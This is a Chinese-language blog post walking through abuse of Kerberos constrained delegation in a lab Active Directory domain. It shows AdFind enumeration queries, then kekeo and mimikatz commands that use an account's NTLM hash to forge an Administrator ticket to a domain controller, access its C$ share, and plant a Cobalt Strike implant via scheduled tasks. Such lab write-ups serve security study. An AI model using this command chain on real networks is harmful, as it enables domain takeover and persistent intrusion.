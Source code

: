 ```yaml
---
layout:     post
title:      约束委派
subtitle:   约束委派的利用(大佬勿喷🙈🙊🙉)
date:       2022-12-13
author:     Orang
header-img: img/post-bg-re-vs-ng2.jpg
catalog: true
tags:
    - Blog
---
```


>on the way。
>
>感谢[迪总](http://xiaodi8.com)教学
>
>[我的博客](https://hujieuse.github.io/)

# 前言

## 域委派

将域用户的权限委派给服务账号，委派之后，服务账号就可以以域用户的身份去做域用户能够做的事。

注意：能够被委派的用户只能是服务账号或者机器账号。

1.机器账户:活动目录中的computers组内的计算机，也被称为机器账号。

2.服务账号：域内用户的一种类型，是服务器运行服务时所用的账号，将服务运行起来加入域内，域用户通过注册SPN也能成为服务账号。

# 约束委派

原理：

由于非约束委派的不安全性，微软在windows server 2003中引入了约束委派，对Kerberos协议进行了拓展，引入了SService for User to Self (S4U2Self)和 Service for User to Proxy (S4U2proxy)。

利用场景：

攻击者控制了服务A的账号，并且服务A配置了到域控的CIFS服务的约束性委派。则攻击者可以先使用S4u2seflt申请域管用户（administrator）访问A服务的ST1，然后使用S4u2Proxy以administrator身份访问域控的CIFS服务，即相当于控制了域控。

## 设置约束委派

机器账户的约束委派设置

![image-20221213205158396](C:\Users\26232\AppData\Roaming\Typora\typora-user-images\image-20221213205158396.png)

服务账户的约束委派设置

mary是普通域用户 默认是没有委派设置的

![image-20221213205233818](C:\Users\26232\AppData\Roaming\Typora\typora-user-images\image-20221213205233818.png)

给域用户注册SPN：

在域控上执行setspn -U -A priv/test mary。

![image-20221213205354490](C:\Users\26232\AppData\Roaming\Typora\typora-user-images\image-20221213205354490.png)

然后查看mary用户

![image-20221213205422743](C:\Users\26232\AppData\Roaming\Typora\typora-user-images\image-20221213205422743.png)

已经有了委派属性然后设置为约束委派。

查询机器主机配置约束委派

```
AdFind -b "DC=god,DC=org" -f "(&(samAccountType=805306369)(msds-allowedtodelegateto=*))" msds-allowedtodelegateto
```

![image-20221213211007750](C:\Users\26232\AppData\Roaming\Typora\typora-user-images\image-20221213211007750.png)

查询服务账户

```
AdFind -b "DC=god,DC=org" -f "(&(samAccountType=805306368)(msds-allowedtodelegateto=*))" msds-allowedtodelegateto
```

![image-20221213211046766](C:\Users\26232\AppData\Roaming\Typora\typora-user-images\image-20221213211046766.png)

## 利用方式

利用条件：

一台机器权限

获取配置了约束委派的服务账户或者机器账户的凭据(明文密码 hash都可)

利用方式：

1、获取用户的票据

```
kekeo "tgt::ask /user:dbadmin /domain:god.org /NTLM:518b98ad4178a53695dc997aa02d455c /ticket:administrator.kirbi" "exit"
```

![image-20221213211222541](C:\Users\26232\AppData\Roaming\Typora\typora-user-images\image-20221213211222541.png)

2、利用用户票据获取域控票据

```
kekeo "tgs::s4u /tgt:TGT_dbadmin@GOD.ORG_krbtgt~god.org@GOD.ORG.kirbi /user:Administrator@god.org /service:cifs/owa2010cn-god.god.org" "exit"
```

![image-20221213211506054](C:\Users\26232\AppData\Roaming\Typora\typora-user-images\image-20221213211506054.png)

3、导入票据到内存

```
mimikatz kerberos::ptt TGS_Administrator@god.org@GOD.ORG_cifs~owa2010cn-god.god.org@GOD.ORG.kirbi
```

![image-20221213211817920](C:\Users\26232\AppData\Roaming\Typora\typora-user-images\image-20221213211817920.png)

4、连接通讯域控

```
dir \\owa2010cn-god.god.org\c$
```

![image-20221213212957176](C:\Users\26232\AppData\Roaming\Typora\typora-user-images\image-20221213212957176.png)

ps: 中间好几次导入票据仍然拒绝连接，重启就好了，没找到原因。

5、上线cs：

copy🐎，然后schtasks 创建计划任务，就可以实现cs上线。

![image](https://raw.githubusercontent.com/hujieuse/hujieuse.github.io/master/img/%E7%BA%A6%E6%9D%9F%E5%A7%94%E6%B4%BE/222.jpg)

## 参考

[https://xz.aliyun.com/t/11555#toc-16](https://xz.aliyun.com/t/11555#toc-16)

[https://cloud.tencent.com/developer/article/1899592](https://cloud.tencent.com/developer/article/1899592)
